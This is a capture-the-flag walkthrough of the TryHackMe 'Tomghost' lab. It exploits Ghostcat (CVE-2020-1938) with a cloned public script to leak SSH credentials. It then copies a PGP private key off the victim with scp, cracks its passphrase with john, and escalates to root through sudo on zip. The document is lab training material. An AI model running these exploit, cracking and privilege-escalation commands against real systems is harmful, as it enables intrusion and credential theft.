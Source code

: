 # Tomghost
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Admins Note: This room contains inappropriate content in the form of a username that contains a swear word and should be noted for an educational setting. - Dark

Tags
--
* AJP Connector
* Ghostcat CVE-2020-1938
* Hash Cracking
* Decryption
* Sudoers

Tools used
--
* nmap
* CVE-2020-1938.py
* gpg2john
* john
* gpg

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.18.94
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.18.94 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 00:06
Scanning 10.10.18.94 [65535 ports]
Discovered open port 22/tcp on 10.10.18.94
Discovered open port 53/tcp on 10.10.18.94
Discovered open port 8080/tcp on 10.10.18.94
Discovered open port 8009/tcp on 10.10.18.94
<SNIP>
```
Interesting looking for 8009 port. It is related to AJP connector, so it could be prone to the Ghostcat CVE-2020-1938. Read https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md for details.

Phase 2: Foothold
--
Let's retrieve an exploit and run it:
```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/

python2 CVE-2020-1938.py 10.10.18.94 -p 8009 -f WEB-INF/web.xml
```
The output will contain at the end a string like:
```
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
```
They seem to refer to an account. Let's use it for connecting by SSH:
```
ssh 10.10.18.94 -l skyfuck
```
Get the user flag by:
```
cat ../merlin/user.txt
```
Phase 3: Privilege Escalation
--
In the home folder of `skyfucker` user, we have two files: `credentials.pgp` (an encrypted file) and `tryhackme.asc` (a private key).

It should suggest us that the private key is used to decrypt the encrypted file, but we still need to retrieve the passphrase of the private key for decrypting. Let's copy the private key in the attacker machine and let's crack it:
```
scp skyfuck@10.10.18.94:/home/skyfuck/tryhackme.asc ./

gpg2john tryhackme.asc > gpg.hash
john gpg.hash --wordlist=./rockyou.txt

<SNIP>
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
<SNIP>
```
Go back to the victim machine and decrypt `credential.pgp` file:
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
<alexandrou>

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
Let's access by merlin account:
```
su merlin
<asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j>
```
Let's see what merlin can run as sudo:
```
sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
Let's use `zip` command for zipping the root flag file and saving it in merlin current folder:
```
sudo /usr/bin/zip -1 -r flag.zip /root/root.txt

unzip flag.zip
cat root/root.txt
```
We got the root flag.